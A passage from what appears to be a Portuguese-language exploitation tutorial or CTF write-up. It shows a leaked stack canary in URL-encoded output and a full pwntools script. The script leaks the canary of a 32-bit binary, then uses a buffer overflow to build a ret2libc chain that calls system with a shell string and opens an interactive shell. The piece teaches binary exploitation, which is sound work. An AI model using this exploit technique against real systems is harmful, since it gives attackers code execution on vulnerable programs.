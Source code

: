 				URL encoding: %41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%FFFFFF9C%FFFFFFCF%FFFFFFD3%FFFFFFC4%43%FFFFFFF8%FFFFFFF7

Conseguimos assim ler os valores do Canary, depois temos apenas que montar a stack com o valor dele para não cairmos no _\_\_stack\_chk\_fail._

E o exploit final :

				from pwn import *

				p = process("./examine32")
				offset = 1032 # offset para sobrescrever o EIP
				read_canary_payload = "A"*1001 # sobrescrevendo o nullbyte para leakar o valor do Canary
				p.sendline(read_canary_payload)
				canary = p.recvuntil("Timestamp").split("%") 
				canary = [canary[i][-2:] for i in range(-7,0)][:3] # Lendo o output
				canary = [x.replace(" ","0") for x in canary] # o zero buga o printf
				print "[!] Canary found : "+str(canary)
				canary = int(''.join(canary),16)

				system = 0xf7e19e70
				exit = 0xf7e0cf50
				bash = 0xf7f39fcc

				exploit = "A"*1000+p32(canary)[::-1]+"\x00" # o canary acaba com nullbyte
				exploit += ("A"*(offset-len(exploit)))+p32(system)+p32(exit)+p32(bash)+"\xff" # 0xff = EOF
				p.sendline(exploit)
				p.interactive() # g0t sh3ll ?

Como em x64 os argumentos ficam nos registradores, precisaremos fazer mais coisa antes de chamar o _system,_ esse será o tópico do próximo post.

Inté !

